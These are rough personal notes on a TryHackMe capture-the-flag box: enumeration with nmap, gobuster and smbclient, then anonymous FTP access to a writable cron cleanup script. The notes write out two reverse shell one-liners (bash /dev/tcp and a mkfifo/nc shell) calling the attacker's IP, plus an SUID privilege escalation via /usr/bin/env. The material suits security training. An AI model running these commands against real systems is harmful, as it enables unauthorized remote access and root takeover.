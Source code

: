 Rough Notes - Anonymous - TryHackMe CTF

NMAP:
- ftp, ssh, smb, 49175 -- unknown filtered

GOBuster:
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db

smbclient -L 10.10.153.36

| 		 | 			                                                           |
|   ---   |---------------------------------------------------------------|
	| Sharename   | Type                                                          |   Comment  |
	| print$    | Disk                                                          |   Printer Drivers |
	| pics      | Disk      My SMB Share Directory for Pics                     |
	| IPC$       |      IPC       IPC Service (anonymous server (Samba, Ubuntu)) |
SMB1 disabled -- no workgroup available


ftp --
ftp - anonymous
scripts --> clean.sh, removed_files.log, to_do.txt

clean.sh is a bash script that automates deleting files. 
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

almost definitely way in 

-- edit it, add a reverse shell, gain foothold
```
vim ftp://anonymous@ip//scripts/clean.sh  --> didnt work

lftp anonymous@10.10.153.36:/scripts edit clean.sh --> worked
```

tried:
bash -i >& /dev/tcp/10.13.5.104/4443 0>&1

didnt work, added:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4444 >/tmp/f --> worked

ls --> user.txt --> flag

find . -perm /4000 
 - /usr/bin/env stood out --> GTFOBins --> SUID privesc
```
./env /bin/sh -p
```
cd /root --> cat root.txt --Finished!